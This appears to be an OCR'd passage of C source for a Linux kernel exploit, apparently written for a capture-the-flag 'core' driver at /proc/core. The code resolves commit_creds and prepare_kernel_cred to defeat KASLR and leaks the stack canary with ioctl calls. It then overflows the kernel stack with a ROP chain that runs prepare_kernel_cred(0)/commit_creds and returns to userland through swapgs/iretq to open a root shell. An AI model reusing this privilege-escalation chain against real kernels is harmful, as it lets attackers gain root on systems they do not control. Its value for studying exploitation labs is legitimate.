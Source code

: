 ```c
    char cur_type[0x10];
    char cur_func[0x40];
    char found = 0;

    while ( fscanf(fd, "%lx%s%s", &cur_addr, cur_type, cur_func) ) {
        if (found == 2)
            return;
        if (!strcmp(cur_func, "commit_creds")) {
            commit_creds_addr = cur_addr;
            kaslr_offset = commit_creds_addr - 0xffffffff8109c8e0;
            lg(kaslr_offset);
            lg(commit_creds_addr);
            found++;
        }
        if (!strcmp(cur_func, "prepare_kernel_cred")) {
            prepare_kernel_cred_addr = cur_addr;
            lg(prepare_kernel_cred_addr);
            found++;
        }
    }
}

void get_root() {
    void* (*a)(int) = prepare_kernel_cred_addr;
    void (*b)(void*) = commit_creds_addr;
    (*b)((*a)(0));
}

int main() {

    save_status();
    get_func_addrs();

    size_t pop_rdi_ret, pop_rsi_ret, pop_rdx_ret;
    pop_rdi_ret = kaslr_offset + 0xffffffff81000b2f;
    pop_rsi_ret = kaslr_offset + 0xffffffff810011d6;
    pop_rdx_ret = kaslr_offset + 0xffffffff81021e53;
    size_t swapgs_popfq_ret = kaslr_offset + 0xffffffff81a012da;
    size_t iretq_ret = kaslr_offset + 0xffffffff81050ac2;

    int fd = open("/proc/core", 2);
    size_t buf[0x800];
    ioctl(fd, 0x6677889C, 0x40);
    ioctl(fd, 0x6677889B, buf);
    size_t canary = buf[0];
    lg(canary);

    int i = 0x40/8;
    buf[i++] = canary;
    buf[i++] = 0xdeadbeef;
    buf[i++] = (size_t)get_root;

    buf[i++] = swapgs_popfq_ret;
    buf[i++] = 0;
    buf[i++] = iretq_ret;
    buf[i++] = (size_t)get_shell;
    buf[i++] = user_cs;
    buf[i++] = user_rflags;
    buf[i++] = user_sp;
    buf[i++] = user_ss;

    write(fd, buf, 0x800);
    ioctl(fd, 0x6677889A, 0xffffffffffff0000|0x100);
```